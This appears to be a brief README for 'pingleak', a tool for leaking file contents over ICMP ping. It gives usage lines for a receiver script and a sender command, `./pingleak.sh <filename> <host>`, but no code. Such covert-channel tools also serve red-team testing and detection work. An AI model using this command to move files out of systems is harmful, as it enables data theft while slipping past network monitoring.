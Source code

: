 # pingleak
leak data using ping :)

# Usage

## On the receiving end
`./receiver.sh <sender (optional)>`
![Image of Receiving end]
(receiver.png)


## On the sending end
`./pingleak.sh <filename> <host>`
![Image of sending end]
(sender.png)
